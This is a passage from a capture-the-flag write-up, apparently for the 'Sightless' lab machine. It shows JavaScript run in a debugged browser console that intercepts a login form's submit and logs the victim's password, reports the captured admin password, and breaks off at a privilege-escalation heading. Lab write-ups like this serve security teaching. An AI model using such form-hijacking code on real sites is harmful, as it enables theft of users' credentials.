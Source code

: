 We need to capture the username and password as the victim is logging in, so we write this javascript in the console:
```javascript
const passwordField = document.querySelector('input[type="password"]');
const loginButton = document.querySelector('button[type="submit"], input[type="submit"], button[name="login"]');

if (passwordField && loginButton) {
    loginButton.addEventListener('click', function(e) {
        e.preventDefault();
        console.log('Captured Password:', passwordField.value);
        debugger;
        e.target.form.submit();
    });
}
```

This revealed the admin password: `ForlorfroxAdmin`
![password-obtained](../assets/img/posts/htb-sightless/chrome-remote-debug-js.png)

## Privilege Escalation

### FTP Access
